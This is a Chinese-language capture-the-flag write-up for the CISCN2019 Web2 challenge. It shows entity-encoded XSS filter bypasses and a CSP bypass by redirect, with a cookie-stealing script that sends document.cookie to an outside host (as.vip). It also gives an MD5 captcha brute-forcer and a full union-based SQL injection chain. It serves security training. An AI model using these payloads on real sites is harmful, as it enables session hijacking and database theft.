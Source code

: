 # \[CISCN2019 华东北赛区]Web2

## \[CISCN2019 华东北赛区]Web2

## 考点

* xss
* sql注入

## wp

登录注册，有个投稿和反馈的功能。

投稿输入

```javascript
<img src="ssssss.png" onerror="javascript:alert(1)" /> 
```

得到文章页面，访问发现存在过滤

```javascript
<img waf等于号”ssssss.png”="" onerror等于号”javascript:alert（1）”="">
```

反馈处有提示`请输入有问题的网址。我会亲自查看`，应该是个XSS，在投稿插入XSS语句，在反馈处让bot访问XSS页面窃取cookie

反馈处的验证要求验证码md5的前6位符合要求，爆破脚本如下

```python
import hashlib

for i in range(1, 10000001):
    s = hashlib.md5(str(i).encode()).hexdigest()[0:6]
    if s == "0fc428":
        print(i)
        break
```

接下来是如何绕过XSS的过滤。测试发现会把`英文的单双引号，英文的括号`换成`中文`的，然后`<,>svg,eval,script`都没过滤。可以尝试HTML实体编码绕过，`'`是`&#x27;`，`"`是`&#x22;`，`(`是`&#x28;`，`)`是`&#x29;`，=是`&#x3D;`

如下payload可以弹窗

```
<svg><script>alert&#x28;1&#x29;</script></svg>
<svg><script>eval&#x28;atob&#x28;&#x27;YWxlcnQoMSk&#x3D;&#x27;&#x29;&#x29;</script></svg>
<svg><script>&#x65;&#x76;&#x61;&#x6c;&#x28;&#x61;&#x74;&#x6f;&#x62;&#x28;&#x27;&#x59;&#x57;&#x78;&#x6c;&#x63;&#x6e;&#x51;&#x6f;&#x4d;&#x53;&#x6b;&#x3d;&#x27;&#x29;&#x29;</script></svg>
```

编码脚本

```python
res = ''
s="eval(atob('YWxlcnQoMSk='))"
for i in s:
    res = res + '&#' +hex(ord(i))[1:] + ';'
```

发现有CSP，可以使用跳转绕过

* `default-src 'self'` 所有的外部资源只能从当前域名加载
* `script-src unsafe-inline` 允许执行页面内嵌的标签和事件监听函数
* `script-src unsafe-eval` 允许将字符串当作代码执行，比如使用eval、setTimeout、setInterval和Function等函数

![](<../.gitbook/assets/image (2).png>)

到XSS平台新建个项目，然后访问script脚本，得到代码

```javascript
(function() { (new Image()).src = 'https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location=' + encodeURIComponent((function() {
        try {
            return document.location.href
        } catch(e) {
            return ''
        }
    })()) + '&toplocation=' + encodeURIComponent((function() {
        try {
            return top.location.href
        } catch(e) {
            return ''
        }
    })()) + '&cookie=' + encodeURIComponent((function() {
        try {
            return document.cookie
        } catch(e) {
            return ''
        }
    })()) + '&opener=' + encodeURIComponent((function() {
        try {
            return (window.opener && window.opener.location.href) ? window.opener.location.href: ''
        } catch(e) {
            return ''
        }
    })());
})();
```

然后把(new Image()).src改成window.location.href，结果如下

```javascript
(function() { window.location.href = 'https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location=' + encodeURIComponent((function() {
        try {
            return document.location.href
        } catch(e) {
            return ''
        }
    })()) + '&toplocation=' + encodeURIComponent((function() {
        try {
            return top.location.href
        } catch(e) {
            return ''
        }
    })()) + '&cookie=' + encodeURIComponent((function() {
        try {
            return document.cookie
        } catch(e) {
            return ''
        }
    })()) + '&opener=' + encodeURIComponent((function() {
        try {
            return (window.opener && window.opener.location.href) ? window.opener.location.href: ''
        } catch(e) {
            return ''
        }
    })());
})();
```

用脚本生成一下payload，在XSS平台可以看到自己的cookie

```python
s = '''(function(){window.location.href='https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location='+encodeURIComponent((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+encodeURIComponent((function(){try{returntop.location.href}catch(e){return ''}})())+'&cookie='+encodeURIComponent((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+encodeURIComponent((function(){try{return (window.opener&&window.opener.location.href)?window.opener.location.href:''}catch(e){return''}})());})()'''
output = ""

for i in s:
    output += "&#" + hex(ord(i))[1:] + ";"

print("<svg><script>eval&#x28;&#x22;" + output + "&#x22;&#x29;</script></svg>")
```

<mark style="color:red;">然后到反馈里面填链接如下</mark>

```
http://web.node3.buuoj.cn:81/post/8933fc518918c6156409c3c2fe884a5f.html
```

![](<../.gitbook/assets/image (11) (1).png>)

修改cookie再去访问admin.php，发现是个查询的功能

![](<../.gitbook/assets/image (28) (1) (1).png>)

尝试SQL注入，输入`id=3-1`，得到`id=2`的结果，是数字型注入

然后尝试联合注入`id=-1 union select 1,2,3`

当前数据库`id=-1 union select 1,(select database()),3` 得到`ciscn`

查询所有数据库`id=-1 union select 1,(select group_concat(schema_name) from information_schema.schemata),3`

得到`information_schema,ctftraining,mysql,performance_schema,test,ciscn`

当前数据库的表`id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='ciscn'),3`

得到`flag,users`

查询flag表`id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='flag'),3`

得到`flagg`

查询flag `id=-1 union select 1,(select flagg from flag),3`

可以得到flag

![](<../.gitbook/assets/image (14).png>)

## 小结

1. XSS绕过的方式可以用HTML实体转义，有两种方式`&#x十六进制;`和`&#十进制;`
2. CSP绕过可以尝试`window.location.href`跳转的方式

